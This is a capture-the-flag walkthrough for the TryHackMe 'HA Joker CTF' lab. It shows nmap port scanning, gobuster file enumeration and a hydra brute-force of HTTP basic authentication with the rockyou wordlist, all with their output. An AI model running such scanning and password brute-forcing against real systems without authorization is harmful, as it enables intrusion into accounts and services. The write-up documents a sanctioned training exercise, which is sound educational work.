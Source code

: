 # THM: HA Joker CTF

| Stat | Value |
| ---------- | -------------------------------------------- |
| Image | <img src="../../images/write_ups/try_hack_me/ha_joker_ctf/ha_joker_ctf.jpeg" alt="HA Joker CTF" width="90"/> |
| Room | HA Joker CTF |
| URL | [https://tryhackme.com/room/jokerctf](https://tryhackme.com/room/jokerctf) |
| Difficulty | Easy |

## Concepts/Tools Used



## Room Description

Batman hits Joker.

## Process

Once the machine starts up I save the machine's ip address to my host file so that I can type `target.thm` instead of an ip address.

## Enumerate services on target machine.

I run nmap to see what ports are open:
```bash
$ nmap -T4 -n -sC -sV -Pn -v -p- target.thm
Starting Nmap 7.80 ( https://nmap.org ) at 2025-07-02 04:58 BST
NSE: Loaded 151 scripts for scanning.
NSE: Script Pre-scanning.
Initiating NSE at 04:58
Completed NSE at 04:58, 0.00s elapsed
Initiating NSE at 04:58
Completed NSE at 04:58, 0.00s elapsed
Initiating NSE at 04:58
Completed NSE at 04:58, 0.00s elapsed
Initiating ARP Ping Scan at 04:58
Scanning target.thm (10.10.83.112) [1 port]
Completed ARP Ping Scan at 04:58, 0.04s elapsed (1 total hosts)
Initiating SYN Stealth Scan at 04:58
Scanning target.thm (10.10.83.112) [65535 ports]
Discovered open port 8080/tcp on 10.10.83.112
Discovered open port 22/tcp on 10.10.83.112
Discovered open port 80/tcp on 10.10.83.112
Completed SYN Stealth Scan at 04:58, 2.35s elapsed (65535 total ports)
Initiating Service scan at 04:58
Scanning 3 services on target.thm (10.10.83.112)
Completed Service scan at 04:58, 6.07s elapsed (3 services on 1 host)
NSE: Script scanning 10.10.83.112.
Initiating NSE at 04:58
Completed NSE at 04:58, 0.47s elapsed
Initiating NSE at 04:58
Completed NSE at 04:58, 0.01s elapsed
Initiating NSE at 04:58
Completed NSE at 04:58, 0.01s elapsed
Nmap scan report for target.thm (10.10.83.112)
Host is up (0.000096s latency).
Not shown: 65532 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 ad:20:1f:f4:33:1b:00:70:b3:85:cb:87:00:c4:f4:f7 (RSA)
|   256 1b:f9:a8:ec:fd:35:ec:fb:04:d5:ee:2a:a1:7a:4f:78 (ECDSA)
|_  256 dc:d7:dd:6e:f6:71:1f:8c:2c:2c:a1:34:6d:29:99:20 (ED25519)
80/tcp   open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: HA: Joker
8080/tcp open  http    Apache httpd 2.4.29
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=Please enter the password.
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: 401 Unauthorized
MAC Address: 02:17:AC:6D:9E:AB (Unknown)
Service Info: Host: localhost; OS: Linux; CPE: cpe:/o:linux:linux_kernel

NSE: Script Post-scanning.
Initiating NSE at 04:58
Completed NSE at 04:58, 0.00s elapsed
Initiating NSE at 04:58
Completed NSE at 04:58, 0.00s elapsed
Initiating NSE at 04:58
Completed NSE at 04:58, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.95 seconds
           Raw packets sent: 65536 (2.884MB) | Rcvd: 65536 (2.621MB)
```

## What version of Apache is it?

Looking at the nmap output above, Apache is running on ports 80 and 8080. The version is 2.4.29.

## What port on this machine does not need to be authenticated by user and password?

Port 22 is ssh and it requires an ssh key or a username and password combination, so it can't be this port. That means it has to be either port 80 or 8080. I pull up the site in Chrome by navigating to http://target.thm. This page isn't using basic authentication. Since the url is http protocol and a port wasn't specified it defaults to 80. That is the answer.

## There is a file on this port that seems to be secret, what is it?

The question is asking for a specific file. I inspected the html source code and didn't see a commented directory. The html comments on this capture the flag site are comments of the Joker character in movies and shows.

Since it is asking for a file, I run the following command to enumerate files:

```bash
$ gobuster dir -u http://target.thm -w /usr/share/wordlists/dirb/common.txt -x txt,php,zip
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://target.thm
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              zip,txt,php
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
...
/phpinfo.php          (Status: 200) [Size: 94750]
/secret.txt           (Status: 200) [Size: 320]
...
```

I made sure to include `-x txt,php,zip` to let gobuster know what files I am specifically looking for. The file is secret.txt

## There is another file which reveals information of the backend, what is it?

The other file listed in the output from gobuster is the file that tell a lot about the backend. Going to http://target.thm/phpinfo.php displays all the output from the phpinfo() function. This is something that should not make it to production.

## When reading the secret file, ee find with a conversation that seems contains at least two users and some keywords that can be interesting, what user do you think it is?

I download the secret.txt file with the following command:

```bash
$ wget http://target.thm/secret.txt
```

Then I output the text in this file by running the following:

```bash
$ cat secret.txt 
Batman hits Joker.
Joker: "Bats you may be a rock but you won't break me." (Laughs!)
Batman: "I will break you with this rock. You made a mistake now."
Joker: "This is one of your 100 poor jokes, when will you get a sense of humor bats! You are dumb as a rock."
Joker: "HA! HA! HA! HA! HA! HA! HA! HA! HA! HA! HA! HA!"
```

There are a lot of hints in this conversation. I see two usernames batman and joker. Batman hints that he can break Joker with a rock. This is a reference that using the rockyou.txt wordlist will crack the joker. This means that joker is the user and their password is in the rockyou.txt file.

## What port on this machine needs to be authenticated by Basic Authentication mechanism?

Going back to the output from nmap, there is only one port that runs http left. I check port 8080 by going to http://target.thm:8080. It uses basic authentication.

## At this point we have one user and a url that needs to be aunthenticated, brute force it to get the password, what is that password?

I am going to use hydra with the joker username and the rockyou.txt wordlist to log into the site on port 8080. I let hydra know that I am trying to break basic authentication by using the http-get protocol in the command. Here is the command I used:

```bash
$ hydra -l joker -P /usr/share/wordlists/rockyou.txt http-get://target.thm:8080
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-07-02 17:46:27
[WARNING] You must supply the web page as an additional option or via -m, default path set to /
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344398 login tries (l:1/p:14344398), ~896525 tries per task
[DATA] attacking http-get://target.thm:8080/
[8080][http-get] host: target.thm   login: joker   password: REDACTED
1 of 1 target successfully completed, 1 valid password found
```

Hydra very quickly found the password and I am able to log into the site.

## Yeah!! We got the user and password and we see a cms based blog. Now check for directories and files in this port. What directory looks like as admin directory?

